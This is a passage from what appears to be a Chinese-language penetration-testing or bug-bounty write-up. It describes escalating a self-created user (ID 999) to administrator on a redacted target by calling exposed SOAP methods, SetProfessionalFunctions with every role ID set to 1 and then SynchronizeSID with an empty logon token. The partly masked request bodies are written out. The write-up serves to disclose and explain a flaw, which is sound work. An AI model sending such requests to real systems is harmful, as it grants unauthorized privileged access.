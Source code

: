 ![](https://mmbiz.qpic.cn/sz_mmbiz_png/iaASKxS11kaR4rCIXQnMOxLIs9MxuvRwHghoRVkAIMjAgjULx8larHd635nwNbFYDXqA9IyM8w8NibWGTcs9DXwQ/640?wx_fmt=png&from=appmsg "")  
  
  
服  
务器响应：  
  

```
<return>true</return>
```

  
意味着后端确认并可能在Active Directory中注册了我的用户（ID: 999）。  
  
  
2. 通过SetProfessionalFunctions分配权限  
  
  
这是真正的胜利。该函数接受用户ID和角色ID列表（iFun**1到iFun**4）。我们将所有角色ID设为1，模拟完全管理员权限。  
  

```
POST /***/***/*** HTTP/1.1
Host: target.com
Content-Type: text/xml; charset=utf-8
Content-Length: 465
<?xml version=&#34;1.0&#34; encoding=&#34;utf-8&#34;?>
<soapenv:Envelope xmlns:soapenv=&#34;http://schemas.xmlsoap.org/soap/envelope/&#34; xmlns:web=&#34;http://**.**/&#34;>
  <soapenv:Header/>
  <soapenv:Body>
    <web:I***li>
  <i**>999</***>
  <i**>1</i**>
  <i**>1</i**>
  <i**3>1</i**3>
  <i**>1</i**4>
</web:I***i>
  </soapenv:Body>
</soapenv:Envelope>
```

  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/iaASKxS11kaR4rCIXQnMOxLIs9MxuvRwHvZTib3V7bFhgMmtW8yV98wGTQEcia1vUQqicVz5xu3lYhHLCKbV6TF8jw/640?wx_fmt=png&from=appmsg "")  
  
  
响应？——是的，再次true，且值得注意的是，我们的用户现在正式拥有特权。  
  
  
3. 通过SynchronizeSID完成SID同步  
  
  
最后，我触发了SID同步，通常用于在企业环境中在系统之间传播用户属性。  
  

```
<?xml version=&#34;1.0&#34; encoding=&#34;utf-8&#34;?>
<soapenv:Envelope xmlns:soapenv=&#34;http://schemas.xmlsoap.org/soap/envelope/&#34; xmlns:web=&#34;http://**.***/&#34;>
  <soapenv:Header/>
  <soapenv:Body>
 <web:SynchronizeSID>
  <sUserName>admin_***</sUserName>
  <tokenWebLogon></tokenWebLogon>
</web:SynchronizeSID>
  </soapenv:Body>
</soapenv:Envelope>
```
